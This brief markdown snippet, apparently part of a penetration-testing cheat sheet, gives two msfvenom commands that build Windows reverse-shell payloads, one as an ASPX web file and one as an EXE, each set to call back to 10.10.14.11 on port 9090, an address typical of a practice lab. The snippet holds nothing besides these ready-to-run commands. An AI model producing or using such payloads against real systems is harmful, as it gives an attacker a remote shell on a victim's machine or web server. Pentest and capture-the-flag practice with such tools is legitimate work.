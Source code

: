 ### Windows ASPX reverse shell
`msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.11 LPORT=9090 -f aspx -o shell.aspx`

### Windows EXE reverse shell
`msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.11 LPORT=9090 -f exe -o shell.exe`

